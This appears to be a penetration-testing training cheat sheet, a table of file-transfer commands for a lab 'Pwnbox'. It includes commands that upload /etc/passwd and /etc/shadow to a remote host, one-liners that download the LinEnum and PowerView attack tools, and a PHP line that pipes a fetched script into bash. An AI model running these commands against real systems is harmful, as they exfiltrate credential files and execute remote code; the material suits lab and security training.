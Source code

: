 | ``mkdir https && cd https`` | Pwnbox - Start Web Server |

| ``python3 -m uploadserver 443 --server-certificate /root/server.pem`` | Pwnbox - Start Web Server |

| ``curl -X POST https://192.168.49.128/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure`` | Linux - Upload Multiple Files |

| `**Alternative Web File Transfer Method**` |  |

| ``python3 -m http.server`` | Linux - Creating a Web Server with Python3 |

| ``python2.7 -m SimpleHTTPServer`` | Linux - Creating a Web Server with Python2.7 |

| ``php -S 0.0.0.0:8000`` | Linux - Creating a Web Server with PHP |

| ``ruby -run -ehttpd . -p8000`` | Linux - Creating a Web Server with Ruby |

| ``wget 192.168.49.128:8000/filetotransfer.txt`` | Download the File from the Target Machine onto the Pwnbox |

| `---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------` | ----------------------------------------------------- |

| `**Python**` |  |

| ``python2.7 -c 'import urllib;urllib.urlretrieve ("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'`` | Python 2 - Download |

| ``python3 -c 'import urllib.request;urllib.request.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'`` | Python 3 - Download |

| ``python3 -m uploadserver`` | Starting the Python uploadserver Module |

| ``python3 -c 'import requests;requests.post("http://192.168.49.128:8000/upload",files={"files":open("/etc/passwd","rb")})'`` | Uploading a File Using a Python One-liner |

| `**PHP**` |  |

| ``php -r '$file = file_get_contents("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'`` | PHP Download with File_get_contents() |

| ``php -r 'const BUFFER = 1024; $fremote = fopen("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "rb"); $flocal = fopen("LinEnum.sh", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'`` | PHP Download with Fopen() |

| ``php -r '$lines = @file("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); foreach ($lines as $line_num => $line) { echo $line; }' \| bash`` | PHP Download a File and Pipe it to Bash |

| `**Other Languages**` |  |

| ``ruby -e 'require "net/http"; File.write("LinEnum.sh", Net::HTTP.get(URI.parse("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh")))'`` | Ruby - Download a File |

| ``perl -e 'use LWP::Simple; getstore("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh");'`` | Perl - Download a File |

| ``cscript.exe /nologo wget.js https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView.ps1`` | Download a File Using JavaScript and cscript.exe -CMD |
